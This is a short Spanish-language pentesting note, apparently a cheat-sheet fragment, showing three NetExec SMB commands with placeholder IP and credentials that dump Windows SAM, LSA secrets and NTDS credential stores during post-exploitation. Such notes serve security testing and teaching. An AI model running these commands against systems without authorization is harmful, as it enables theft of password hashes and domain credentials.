 Netexec nos permite realizar ciertas operaciones de post-explotación.

Dumpear sam, ntds, lsa:

```bash
netexec smb <IP> -U 'x' -p 'y' --sam
netexec smb <IP> -U 'x' -p 'y' --lsa
netexec smb <IP> -U 'x' -p 'y' --ntds
```
